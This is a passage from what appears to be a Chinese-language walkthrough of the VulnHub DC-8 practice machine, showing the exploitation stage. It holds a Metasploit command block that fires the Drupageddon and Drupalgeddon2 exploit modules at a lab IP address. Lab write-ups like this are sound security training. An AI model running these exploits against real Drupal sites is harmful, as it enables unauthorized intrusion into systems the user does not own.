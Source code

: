 ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/3.png)

---

# 中期-漏洞利用

```
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.141
run
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.141.141
run
```
